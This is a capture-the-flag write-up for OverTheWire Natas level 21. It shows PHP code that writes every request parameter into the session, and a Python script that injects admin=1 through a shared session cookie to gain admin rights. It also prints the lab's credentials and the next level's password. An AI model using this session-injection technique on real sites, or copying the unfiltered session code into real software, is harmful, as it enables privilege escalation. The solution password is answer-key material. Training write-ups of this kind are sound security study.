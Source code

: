 # Writeup level 21
In this challenge we have two websites which are colocated. On the main page we can't do anything so lets hop on the second website and try our luck there.

**Source Code (2nd Website)**  

```php
<?  

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?> 
```
Okay so this is pretty simple actually because of the following part:  
```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```
They basically allow us to inject our own key-value pairs and since we want to become admin, we have to put the key admin and value 1 into the session. For that we just have to create a key-value pair with submit where the value doesn't matter but I am going to set it to true and after that we put the admin-1 key-value pair in there. After we have edited that session we have to call the main website (with our modified session) again to get the credentials for the next level.

**Exploit**  

```python
import requests

url = "http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=true"
data={"submit": "true", "admin": "1"}

session = "igk26egtes25qcull2tf1tivg5"

cookies = {'PHPSESSID': session}
r = requests.post(url, cookies=cookies,data=data, auth=("natas21", "IFekPyrQXftziDEsUr3x21sYuahypdgJ"))
print(r.text)
url2 = "http://natas21.natas.labs.overthewire.org/index.php"
r2 = requests.get(url2, cookies=cookies, auth=("natas21", "IFekPyrQXftziDEsUr3x21sYuahypdgJ"))
print(r2.text)

# password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

The password is:  
chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
